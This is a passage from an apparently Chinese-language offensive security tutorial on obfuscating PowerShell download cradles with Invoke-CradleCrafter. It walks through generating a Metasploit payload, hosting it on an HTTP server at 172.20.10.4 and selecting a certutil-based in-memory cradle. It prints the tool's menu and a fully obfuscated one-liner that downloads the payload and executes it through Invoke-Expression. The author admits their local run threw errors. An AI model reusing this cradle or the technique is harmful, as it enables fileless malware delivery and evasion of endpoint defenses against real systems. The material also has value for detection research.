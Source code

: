 这里我在本地实验因为环境变量的原因报错，这里还是粗略的写一下大致实现过程

首先修改 powershell 策略为可执行脚本

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou84oODGsee2BkwItiaC5pyDwXfFNTkIVq3iabo5lHjNeBg12PSVfa6XPk7icM2Gxsx2iaAGibfNJvYnU4g/640?wx_fmt=png)

下载 powershell 混淆框架并执行

```
Import-Module .\Invoke-CradleCrafter.ps1Invoke-CradleCrafter
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou84oODGsee2BkwItiaC5pyDwEnUJ7qUAHVUcHnaK5vvQSD2XtpwUxSvVSqUE7w52uXic0BrrzUXJLvw/640?wx_fmt=png)

使用 msf 生成一个 payload，在本地起一个 http 服务器，放到 http 服务器的目录下

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou84oODGsee2BkwItiaC5pyDwydpVs4GNN6VOwklkdHiaFP1n3q37fJ4OicL1chE1fHUb9TIxyK3e4NcA/640?wx_fmt=png)

设置 url 为 http 服务器目录

```
set URL http://172.20.10.4:8000/key.txt
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou84oODGsee2BkwItiaC5pyDwbiaj2k6QTNByqJEIg2hdac5ExhicUVz9gRKE7YYRKc95TP9NziaNM6RfQ/640?wx_fmt=png)

使用以下几个命令进行初始化

```
Invoke-CradleCrafter> MEMORYChoose one of the below Memory options:[*] MEMORY\PSWEBSTRING          PS Net.WebClient + DownloadString method[*] MEMORY\PSWEBDATA            PS Net.WebClient + DownloadData method[*] MEMORY\PSWEBOPENREAD        PS Net.WebClient + OpenRead method[*] MEMORY\NETWEBSTRING         .NET [Net.WebClient] + DownloadString method (PS3.0+)[*] MEMORY\NETWEBDATA           .NET [Net.WebClient] + DownloadData method (PS3.0+)[*] MEMORY\NETWEBOPENREAD       .NET [Net.WebClient] + OpenRead method (PS3.0+)[*] MEMORY\PSWEBREQUEST         PS Invoke-WebRequest/IWR (PS3.0+)[*] MEMORY\PSRESTMETHOD         PS Invoke-RestMethod/IRM (PS3.0+)[*] MEMORY\NETWEBREQUEST        .NET [Net.HttpWebRequest] class[*] MEMORY\PSSENDKEYS           PS SendKeys class + Notepad (for the lulz)[*] MEMORY\PSCOMWORD            PS COM object + WinWord.exe[*] MEMORY\PSCOMEXCEL           PS COM object + Excel.exe[*] MEMORY\PSCOMIE              PS COM object + Iexplore.exe[*] MEMORY\PSCOMMSXML           PS COM object + MsXml2.ServerXmlHttp[*] MEMORY\PSINLINECSHARP       PS Add-Type + Inline CSharp[*] MEMORY\PSCOMPILEDCSHARP     .NET [Reflection.Assembly]::Load Pre-Compiled CSharp[*] MEMORY\CERTUTIL             Certutil.exe + -ping ArgumentInvoke-CradleCrafter\Memory> CERTUTIL[*] Name          :: Certutil[*] Description   :: PowerShell leveraging certutil.exe to download payload as string[*] Compatibility :: PS 2.0+[*] Dependencies  :: Certutil.exe[*] Footprint     :: Entirely memory-based[*] Indicators    :: powershell.exe spawns certutil.exe certutil.exe [*] Artifacts     :: C:\Windows\Prefetch\CERTUTIL.EXE-********.pf AppCompat CacheInvoke-CradleCrafter\Memory\Certutil> ALLChoose one of the below Memory\Certutil\All options to APPLY to current cradle:[*] MEMORY\CERTUTIL\ALL\1       Execute ALL Token obfuscation techniques (random order)
```

到这里应该会显示如下代码

```
Invoke-CradleCrafter\Memory\Certutil\All> 1Executed:  CLI:  Memory\Certutil\All\1  FULL: Out-Cradle -Url 'http://172.20.10.4/key.txt' -Cradle 17 -TokenArray @('All',1)Result:SV 1O6 'http://172.20.10.4/key.txt';.(Get-Command *ke-*pr*) ((C:\Windows\System32\certutil /ping (Get-Item Variable:\1O6).Value|&(Get-Variable Ex*xt).Value.InvokeCommand.(((Get-Variable Ex*xt).Value.InvokeCommand.PsObject.Methods|?{(Get-Variable _ -ValueOn).Name-ilike'*and'}).Name).Invoke((Get-Variable Ex*xt).Value.InvokeCommand.(((Get-Variable Ex*xt).Value.InvokeCommand|GM|?{(Get-Variable _ -ValueOn).Name-ilike'*Com*e'}).Name).Invoke('*el*-O*',$TRUE,1),[Management.Automation.CommandTypes]::Cmdlet)-Skip 2|&(Get-Variable Ex*xt).Value.InvokeCommand.(((Get-Variable Ex*xt).Value.InvokeCommand.PsObject.Methods|?{(Get-Variable _ -ValueOn).Name-ilike'*and'}).Name).Invoke((Get-Variable Ex*xt).Value.InvokeCommand.(((Get-Variable Ex*xt).Value.InvokeCommand|GM|?{(Get-Variable _ -ValueOn).Name-ilike'*Com*e'}).Name).Invoke('*el*-O*',$TRUE,1),[Management.Automation.CommandTypes]::Cmdlet)-SkipLa 1)-Join"`r`n")Choose one of the below Memory\Certutil\All options to APPLY to current cradle:[*] MEMORY\CERTUTIL\ALL\1       Execute ALL Token obfuscation techniques (random order)
```
